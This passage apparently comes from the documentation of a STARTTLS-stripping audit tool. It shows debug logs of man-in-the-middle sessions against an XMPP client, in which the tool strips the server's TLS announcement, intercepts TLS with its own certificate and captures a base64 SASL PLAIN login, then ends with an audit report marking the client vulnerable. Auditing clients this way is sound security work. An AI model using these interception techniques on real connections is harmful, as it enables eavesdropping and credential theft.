        2016-02-05 16:53:31,199 - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server][mangled] "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/></stream:features>"
        2016-02-05 16:53:31,203 - DEBUG    - <Session 0x7f083196a7d0> [client] => [server]          "<iq type='get' id='purple9f914f80'><query xmlns='jabber:iq:auth'><username>tin</username></query></iq>"
        2016-02-05 16:53:31,259 - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='13515446948282835507' from='jabber.ccc.de' xml:lang='en'>"
        2016-02-05 16:53:31,263 - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          "<stream:error><invalid-namespace xmlns='urn:ietf:params:xml:ns:xmpp-streams'></invalid-namespace></stream:error>"
        2016-02-05 16:53:31,266 - DEBUG    - <Session 0x7f083196a7d0> [client] <= [server]          '</stream:stream>'
        2016-02-05 16:53:31,269 - WARNING  - <Session 0x7f083196a7d0> terminated.

XMPP.StripFromCapabilities - strip starttls server annoucement
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

        2016-02-05 16:53:34,633 - DEBUG    - <ProtocolDetect 0x7f083196a990 protocol_id=PROTO_XMPP len_history=0> - protocol detected (target port)
        2016-02-05 16:53:34,633 - INFO     - <Session 0x7f083196a910> client ('192.168.139.1', 56890) has connected
        2016-02-05 16:53:34,633 - INFO     - <Session 0x7f083196a910> connecting to target ('jabber.ccc.de', 5222)
        2016-02-05 16:53:34,741 - DEBUG    - <Session 0x7f083196a910> [client] => [server]          "<?xml version='1.0' ?><stream:stream to='jabber.ccc.de' xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' version='1.0'>"
        2016-02-05 16:53:34,742 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.StripFromCapabilities new: True>
        2016-02-05 16:53:34,810 - DEBUG    - <Session 0x7f083196a910> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='12381525525258986322' from='jabber.ccc.de' version='1.0' xml:lang='en'>"
        2016-02-05 16:53:34,814 - DEBUG    - <Session 0x7f083196a910> [client] <= [server]          "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/><starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'><required/></starttls></stream:features>"
        2016-02-05 16:53:34,816 - DEBUG    - <Session 0x7f083196a910> [client] <= [server][mangled] "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/></stream:features>"
        2016-02-05 16:53:34,869 - DEBUG    - <Session 0x7f083196a910> [client] => [server]          "<iq type='get' id='purplecfe2ee07'><query xmlns='jabber:iq:auth'><username>tin</username></query></iq>"
        2016-02-05 16:53:34,920 - DEBUG    - <Session 0x7f083196a910> [client] <= [server]          "<stream:error><policy-violation xmlns='urn:ietf:params:xml:ns:xmpp-streams'></policy-violation><text xml:lang='' xmlns='urn:ietf:params:xml:ns:xmpp-streams'>Use of STARTTLS required</text></stream:error></stream:stream>"
        2016-02-05 16:53:34,926 - WARNING  - <Session 0x7f083196a910> terminated.

XMPP.StripUntrustedIntercept - TLS Interception inbound and outbound with own certificate/key
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

        2016-02-05 16:53:42,799 - DEBUG    - <ProtocolDetect 0x7f083196aa90 protocol_id=PROTO_XMPP len_history=0> - protocol detected (target port)
        2016-02-05 16:53:42,799 - INFO     - <Session 0x7f083196a8d0> client ('192.168.139.1', 56892) has connected
        2016-02-05 16:53:42,799 - INFO     - <Session 0x7f083196a8d0> connecting to target ('jabber.ccc.de', 5222)
        2016-02-05 16:53:42,901 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "<?xml version='1.0' ?><stream:stream to='jabber.ccc.de' xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' version='1.0'>"
        2016-02-05 16:53:42,903 - DEBUG    - <RewriteDispatcher  - changed mangle: striptls.UntrustedIntercept new: True>
        2016-02-05 16:53:42,980 - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='10051743579572304948' from='jabber.ccc.de' version='1.0' xml:lang='en'><stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/><starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'><required/></starttls></stream:features>"
        2016-02-05 16:53:42,984 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "<starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'/>"
        2016-02-05 16:53:42,986 - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server][mangled] "<proceed xmlns='urn:ietf:params:xml:ns:xmpp-tls'/>"
        2016-02-05 16:53:43,006 - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server][mangled] waiting for inbound SSL Handshake
        2016-02-05 16:53:43,008 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "<starttls xmlns='urn:ietf:params:xml:ns:xmpp-tls'/>"
        2016-02-05 16:53:43,060 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server][mangled] performing outbound SSL handshake
        2016-02-05 16:53:43,219 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server][mangled] None
        2016-02-05 16:53:43,221 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          '<'
        2016-02-05 16:53:43,225 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "stream:stream to='jabber.ccc.de' xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' version='1.0'>"
        2016-02-05 16:53:43,369 - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server]          "<?xml version='1.0'?><stream:stream xmlns='jabber:client' xmlns:stream='http://etherx.jabber.org/streams' id='6938642107398534259' from='jabber.ccc.de' version='1.0' xml:lang='en'>"
        2016-02-05 16:53:43,379 - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server]          "<stream:features><c xmlns='http://jabber.org/protocol/caps' hash='sha-1' node='http://www.process-one.net/en/ejabberd/' ver='bvEOjW9q8CEw8mw8ecNTLXvY5WQ='/><register xmlns='http://jabber.org/features/iq-register'/><mechanisms xmlns='urn:ietf:params:xml:ns:xmpp-sasl'><mechanism>PLAIN</mechanism><mechanism>X-OAUTH2</mechanism><mechanism>SCRAM-SHA-1</mechanism></mechanisms></stream:features>"
        2016-02-05 16:53:43,423 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          '<'
        2016-02-05 16:53:43,426 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          "auth xmlns='urn:ietf:params:xml:ns:xmpp-sasl' mechanism='PLAIN' xmlns:ga='http://www.google.com/talk/protocol/auth' ga:client-uses-full-bind-result='true'>AHRpbgB4eA==</auth>"
        2016-02-05 16:53:43,581 - DEBUG    - <Session 0x7f083196a8d0> [client] <= [server]          "<failure xmlns='urn:ietf:params:xml:ns:xmpp-sasl'><not-authorized/></failure>"
        2016-02-05 16:53:43,611 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          '<'
        2016-02-05 16:53:43,616 - DEBUG    - <Session 0x7f083196a8d0> [client] => [server]          '/stream:stream>'
        2016-02-05 16:53:43,620 - WARNING  - <Session 0x7f083196a8d0> terminated.

XMPP Audit results
^^^^^^^^^^^^^^^^^^

::

        2016-02-05 16:53:46,352 - WARNING  - Ctrl C - Stopping server
        2016-02-05 16:53:46,353 - INFO     -  -- audit results --
        2016-02-05 16:53:46,353 - INFO     - [*] client: 192.168.139.1
        2016-02-05 16:53:46,353 - INFO     -     [Vulnerable!] <class striptls.StripInboundTLS at 0x7f08319a6808>
        2016-02-05 16:53:46,353 - INFO     -     [Vulnerable!] <class striptls.StripFromCapabilities at 0x7f08319a67a0>
        2016-02-05 16:53:46,353 - INFO     -     [Vulnerable!] <class striptls.UntrustedIntercept at 0x7f08319a6870>

